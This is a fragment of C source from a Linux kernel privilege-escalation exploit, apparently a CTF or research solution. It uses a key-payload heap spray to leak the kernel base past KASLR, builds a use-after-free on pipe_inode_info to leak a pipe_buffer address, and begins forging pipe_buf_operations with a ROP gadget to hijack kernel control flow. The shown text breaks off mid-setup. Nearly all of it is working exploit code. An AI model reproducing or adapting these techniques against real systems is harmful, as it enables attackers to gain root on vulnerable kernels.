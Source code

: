 ```c

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ) {
            printf("[+] found victim key at idx: %d\n", i);
            victim_key_idx = i;
        } else {
            key_revoke(key_id[i]);
        }
    }

    if (victim_key_idx == -1) {
        err_exit("FAILED at corrupt user_key_payload!");
    }

    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++) {
        if (buf[i] > kernel_base && (buf[i] & 0xfff) == 0x210) {
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        err_exit("FAILED to leak kernel addr!");
    }

    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
    puts("[*] construct UAF on pipe_inode_info...");

    /* 0->1->..., the 1 will be the payload object */
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    alloc(1, PIPE_INODE_INFO_SZ, buf);
    del(1);
    del(0);

    pipe_key_id = key_alloc("arttnba3pipe", buf, PIPE_INODE_INFO_SZ - 0x18);
    del(1);

    /* this object is for the pipe buffer */
    alloc(0, PIPE_BUFFER_SZ, buf);
    del(0);

    pipe(pipe_fd);

    /* note that the user_key_payload->datalen is 0xFFFF now */
    retval = key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16]; /* pipe_inode_info->bufs */
    printf("\033[32m\033[1m[+] Got pipe_buffer: \033[0m0x%lx\n", 
            pipe_buffer_addr);

    /* construct fake pipe_buf_operations */
    memset(buf, 'A', sizeof(buf));

    buf[0] = *(size_t*) "arttnba3";
    buf[1] = *(size_t*) "arttnba3";
    buf[2] = pipe_buffer_addr + 0x18;  /* pipe_buffer->ops */
    /* after release(), we got back here */
    buf[3] = kernel_offset + POP_RBX_POP_RBP_POP_R12_RET;
    /* pipe_buf_operations->release */
```